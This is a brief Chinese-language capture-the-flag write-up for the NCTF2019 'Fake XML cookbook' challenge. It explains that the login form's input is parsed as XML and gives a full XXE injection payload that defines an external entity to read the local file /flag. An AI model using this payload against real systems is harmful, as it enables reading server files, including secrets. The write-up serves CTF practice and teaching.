

# [NCTF2019]Fake XML cookbook

## Tag

XXE 注入

***

## Writeup

查看后端发现前端会解析为 XML，直接 XXE 注入，Payload 如下：

```xml
<?xml version="1.0" encoding="UTF-8"?> 
<!DOCTYPE xxe [
<!ENTITY xxe SYSTEM "file:///flag">]>
<user>
  <username>
    &xxe;
  </username>
  <password>
    aaa
  </password>
</user>
```

